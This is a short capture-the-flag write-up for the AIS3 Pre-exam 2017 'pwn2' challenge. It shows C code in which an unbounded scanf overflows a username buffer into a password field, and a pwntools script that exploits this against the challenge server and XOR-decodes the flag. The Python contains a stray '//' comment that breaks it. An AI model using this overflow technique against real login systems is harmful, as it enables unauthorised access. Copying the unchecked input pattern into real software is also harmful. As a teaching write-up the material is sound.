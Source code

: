 #AIS3 Pre-exam 2017: pwn2

![pwn2](pwn2.png)

##Solution
Windows Binary... QQ

A simple buffer overflow:
```
struct user {
	char name[20];
	int pass;
} ais3_user;

...snip...

printf(" Username : ");
scanf("%s",ais3_user.name);
printf(" Password : ");
scanf("%d", &password);
```

The ais3_user.name doesn't check the length of input, so the 21~24 chars will overflow to ais3_user.pass.
We can control the value of ais3_user.pass, so we can login the system.
The output flag is encrypted by xor-ing the password, so we have to xor the password to decrypt it.

```python
#!/usr/bin/env python

from pwn import *

host = "quiz.ais3.org"
port = 56746

r = remote(host, port)

r.recvuntil(': ')
payload = 'a' * 20 + 'b' * 4
r.sendline(payload)

r.recvuntil(': ')
payload = '1650614882' // = 0x62626262
r.sendline(payload)

r.recvuntil(':')
r.recvuntil(':')
r.sendline('1')

r.recvuntil(': ')
flag = r.recvline()
print repr("".join([chr(ord('b') ^ ord(flag[i])) for i in range(len(flag))]))

r.interactive()
```

Flag:
>ais3{Just_a_simpl3_overflow}
